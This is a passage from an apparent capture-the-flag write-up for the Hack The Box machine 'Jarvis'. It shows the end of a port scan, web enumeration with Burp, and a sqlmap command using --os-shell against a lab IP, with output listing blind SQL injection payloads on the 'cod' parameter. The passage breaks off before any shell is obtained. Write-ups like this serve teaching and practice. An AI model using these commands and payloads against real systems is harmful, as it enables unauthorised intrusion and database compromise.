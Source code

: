 | http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

<p>Alright so looks like two separate web instances and an SSH session. Let's quickly look at the non-standard 64999 port.</p>

<p align="center">
<img src="{{ '/assets/htb-jarvis/initial-64999.PNG' | relative_url }}">
</p>

<p>Well that was rude... Let's hope that the other port looks a bit better. After poking around and getting some inspiration for my next Iron Man based vacation I didn't notice anything too obvious. Checking the various page sources didn't reveal any mystical either so decided to turn on Burpsuite and give the site a quick spider.</p>

<p align="center">
<img src="{{ '/assets/htb-jarvis/burp-spider.PNG' | relative_url }}">
</p>

<h1>User exploitation</h1>

<p>We can see from both manual investigation and through Burp that there is a parameter being passed to <code>room.php</code> as we go through the various rooms. Decided to fire off a sqlmap and see if we get any hits. </p>

{% highlight shell %}
sqlmap -u "http://10.10.10.143/room.php?cod=1" --os-shell
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[17:11:24] [INFO] testing connection to the target URL
[17:11:24] [INFO] checking if the target is protected by some kind of WAF/IPS
[17:11:24] [INFO] testing if the target URL content is stable
[17:11:25] [INFO] target URL content is stable
[17:11:25] [INFO] testing if GET parameter 'cod' is dynamic
[17:11:25] [INFO] GET parameter 'cod' appears to be dynamic
[17:11:25] [INFO] heuristic (basic) test shows that GET parameter 'cod' might be injectable
...
[17:11:49] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[17:11:59] [INFO] GET parameter 'cod' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
...
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 6194=6194

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cod=1 AND SLEEP(5)
---